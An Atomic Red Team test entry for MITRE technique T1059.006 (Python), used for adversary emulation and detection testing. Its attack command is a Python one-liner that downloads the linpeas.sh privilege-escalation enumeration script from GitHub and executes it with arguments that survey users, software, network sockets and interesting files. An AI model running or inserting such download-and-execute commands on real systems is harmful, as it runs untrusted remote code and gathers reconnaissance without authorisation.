 ```yaml
---
tags: [T1059_006, atomic_test]
filename: "[[T1059.006 - Command and Scripting Interpreter- Python]]"
---
```

# T1059.006 - Command and Scripting Interpreter: Python

## Atomic Test #1 - Execute shell script via python's command mode arguement
Download and execute shell script and write to file then execute locally using Python -c (command mode)

**Supported Platforms:** Linux


**auto_generated_guid:** 3a95cdb2-c6ea-4761-b24e-02b71889b8bb





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| script_url | Shell script public URL | string | https://github.com/carlospolop/PEASS-ng/releases/download/20220214/linpeas.sh|
| payload_file_name | Name of shell script downloaded from the script_url | string | T1059.006-payload|
| executor | FreeBSD or Linux shell | string | sh|
| script_args | Arguments to check for system stats, available software, process details, environment paths, open sockets, and interesting files. | string | -q -o SysI, Devs, AvaSof, ProCronSrvcsTmrsSocks, Net, UsrI, SofI, IntFiles|


#### Attack Commands: Run with `sh`! 


```sh
which_python=$(which python || which python3 || which python3.9 || which python2)
$which_python -c 'import requests;import os;url = "#{script_url}";malicious_command = "#{executor} #{payload_file_name} #{script_args}";session = requests.session();source = session.get(url).content;fd = open("#{payload_file_name}", "wb+");fd.write(source);fd.close();os.system(malicious_command)'
```

#### Cleanup Commands:
```sh
rm #{payload_file_name}
```



#### Dependencies:  Run with `sh`!
##### Description: Verify if python is in the environment variable path and attempt to import requests library.
##### Check Prereq Commands:
```sh
which_python=$(which python || which python3 || which python3.9 || which python2); $which_python -V
$which_python -c 'import requests' 2>/dev/null; echo $?
```
##### Get Prereq Commands:
```sh
pip install requests
```
